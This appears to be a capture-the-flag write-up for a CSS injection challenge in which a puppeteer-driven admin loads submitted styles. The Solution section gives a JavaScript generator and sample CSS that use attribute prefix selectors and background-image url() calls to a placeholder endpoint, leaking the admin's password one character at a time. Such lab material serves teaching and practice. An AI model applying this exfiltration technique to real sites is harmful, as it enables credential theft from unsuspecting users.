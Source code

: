 # Hacking with Style

## Challenge Overview

Bob the Tomato is a web admin who has set up a new website. While he's great with coding, he isn't as good with styles, so he's looking for community contributions. People can submit CSS to Bob for him to try (read: load into a puppeteer runner). CSS Injection attacks can be used here to get information about the page in Bob's session, when he tests the CSS styles.

## Solution

CSS selectors offer a number of partial matching options, these can be exploited en-masse, along with the url function, to send web requests in response to page contents.

While this can be written by hand, students will find this much easier with a script to write the CSS.

Something like the following would work well:

```js
const url = 'https://some.http.endpoint';
const alphabet = [];
for (let i = 97; i < 123; i++) {
    alphabet.push(String.fromCharCode(i));
}
console.log(alphabet.map(letter=>`#password[value^=${prefix}${letter}] {
    background-image: url('${url}/${prefix}${letter}');
}`).join('\n'));
```

This will then generate CSS like:

```css
#password[value^=t] {
    background-image: url('https://some.http.endpoint/t');
}
```

Which will submit a request to the given endpoint if and only if the #password field (in /account) has a value starting with "t".

By brute-forcing one letter at a time, the students can work out Bob's password, log into his account, and find the flag.

## Hints

See `/hint`
